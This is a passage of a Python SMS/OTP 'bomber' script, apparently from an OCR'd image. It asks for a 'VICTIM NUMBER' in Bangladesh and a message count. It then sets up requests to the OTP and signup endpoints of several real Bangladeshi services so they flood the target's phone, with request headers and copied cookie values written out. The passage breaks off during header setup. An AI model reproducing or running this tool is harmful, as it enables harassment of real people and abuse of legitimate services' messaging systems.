 print (logo)
print(w+"[~] please wait Internet checking...  ")
os.system('clear')
print(logo)
print(w+"[~] Connecting To The Internet")
print(f"\n{r}Note : {w}1 Sms Can Sent Up To 18 sms !!")
try:
 request = requests.get("https://www.google.com/", timeout=2)
 print("\n\033[1;37m[\033[1;32m#\033[1;37m]"+"\033[1;32m Connetcted ")
except (requests.ConnectionError, requests.Timeout) as exception:
 print("\n\033[1;37m[\033[1;32m#\033[1;37m] \033[1;31mðŸ˜¢ Your Internet Connection Is Poor !")
number=input(f"{c}\n[ VICTIM NUMBER ] :{w} +880")
amo=int(input(c+"\n[ AMOUNT ] : "+w))
xak(f"\n\n\t {w}<{r}/{w}> {g}STAY WITH USS ;) {w}<{r}/{w}>\n\n")
input(f"\t\t\t{r}Press Enter....")
os.system("clear")
url1 = "https://bikroy.com/data/phone_number_login/verifications/phone_login?phone=0"+number


url2 = "https://www.bioscopelive.com/en/login/send-otp?phone=880"+number+"&operator=bd-otp"

headers2 = CaseInsensitiveDict()
headers2["referer"] = "https://www.bioscopelive.com/en/login?type=login"
url3 = "https://fundesh.com.bd/api/auth/generateOTP?service_key="
headers3 = CaseInsensitiveDict()
headers3["Content-Type"] = "application/json"
data3 = '{"msisdn":"'+number+'"}'
url4 = "https://fundesh.com.bd/api/auth/resendOTP"
headers4 = CaseInsensitiveDict()
headers4["Content-Type"] = "application/json"
data4 = '{"msisdn":"'+number+'"}'
url5 = "https://api.redx.com.bd/v1/user/signup"

headers5 = CaseInsensitiveDict()
headers5["Accept"] = "application/json, text/plain, */*"
headers5["Accept-Encoding"] = "gzip, deflate, br"
headers5["Accept-Language"] = "en-US,en;q=0.5"
headers5["Connection"] = "keep-alive"
headers5["Content-Length"] = "65"
headers5["Content-Type"] = "application/json"
headers5["Cookie"] = "_ga=GA1.3.1117093475.951445077; _gid=GA1.3.134905361.951445077; WZRK_S_4R6-9R6-155Z=%7B%22p%22%3A1%2C%22s%22%3A951410497%2C%22t%22%3A951445096%7D; WZRK_G=6184e322525e444ab0f771f7f041933a; _fbp=fb.2.951445106167.1213159921; _hjSessionUser_2064965=eyJpZCI6ImRhMmMzMDY1LWNkMDYtNWFlOC04NTA4LTg0MzYzYWM4Y2RiNyIsImNyZWF0ZWQiOjE2NTE0NDUxMDkwMjMsImV4aXN0aW5nIjpmYWxzZX0=; _hjFirstSeen=1; _hjSession_2064965=eyJpZCI6IjMxMGI0MDQ2LTY3OGUtNDM2OS1hOWY1LTRlYzlmOWEyMDhkNCIsImNyZWF0ZWQiOjE2NTE0NDUxMTg1NzgsImluU2FtcGxlIjpmYWxzZX0=; _hjAbsoluteSessionInProgress=1"
headers5["Host"] = "api.redx.com.bd"
headers5["Origin"] = "https://redx.com.bd"
headers5["Referer"] = "https://redx.com.bd/registration/"
headers5["TE"] = "Trailers"
headers5["User-Agent"] = "Mozilla/5.0 (X11; Linux x66_64; rv:76.0) Gecko/20100101 Firefox/76.0"
headers5["x-access-token"] = "Bearer null"
